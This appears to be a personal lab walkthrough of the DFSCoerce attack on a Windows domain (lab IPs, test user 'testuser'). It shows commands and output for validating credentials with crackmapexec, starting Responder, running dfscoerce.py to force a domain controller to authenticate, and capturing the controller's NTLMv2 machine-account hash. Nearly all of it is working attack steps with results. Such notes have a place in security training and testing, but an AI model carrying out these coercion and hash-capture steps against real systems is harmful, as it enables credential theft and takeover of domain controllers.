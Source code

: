 # link

https://github.com/Wh04m1001/DFSCoerce

# steps

## 1

require a valid domain credentials, doesn't have to be administrator


	┌──(kali㉿kali)-[~/Desktop]
	└─$ crackmapexec smb 192.168.200.100 -u testuser -p 'Pass123!' -d valhalla
	SMB         192.168.200.100 445    ODIN             [*] Windows Server 2012 R2 Standard Evaluation 9600 x64 (name:ODIN) (domain:valhalla) (signing:True) (SMBv1:True)
	SMB         192.168.200.100 445    ODIN             [+] valhalla\testuser:Pass123!


## 2
Start listener (Responder)

	┌──(kali㉿kali)-[~/Desktop]
	└─$ sudo /usr/share/responder/Responder.py -I eth0
	[sudo] password for kali: 
	                                         __
	  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
	  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
	  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
	                   |__|
	
	           NBT-NS, LLMNR & MDNS Responder 3.1.1.0
	
	  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
	  To kill this script hit CTRL-C


## 3
Run coerce script


	┌──(kali㉿kali)-[~/Desktop/DFSCoerce]
	└─$ python dfscoerce.py -u testuser -p 'Pass123!' -d valhalla -dc-ip 192.168.200.100 192.168.200.126 192.168.200.100
	[-] Connecting to ncacn_np:192.168.200.100[\PIPE\netdfs]
	[+] Successfully bound!
	[-] Sending NetrDfsRemoveStdRoot!
	NetrDfsRemoveStdRoot 
	ServerName:                      '192.168.200.126\x00' 
	RootShare:                       'test\x00' 
	ApiFlags:                        1 
	
	
	DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 


## 4

check Responder

	[HTTP] User-Agent        : WinHttp-Autoproxy-Service/5.1
	[HTTP] User-Agent        : WinHttp-Autoproxy-Service/5.1
	[SMB] NTLMv2-SSP Client   : ::ffff:192.168.200.100
	[SMB] NTLMv2-SSP Username : VALHALLA\ODIN$
	[SMB] NTLMv2-SSP Hash     : ODIN$::VALHALLA:9a0efe77d6fb6a0a:577378819C056A02F5582B21DD363B28:01010000000000000058F03C6F9FD80158............003600000000000000000000000000                                                                                                             
	[*] Skipping previously captured hash for VALHALLA\ODIN$
	[*] Skipping previously captured hash for VALHALLA\ODIN$
	
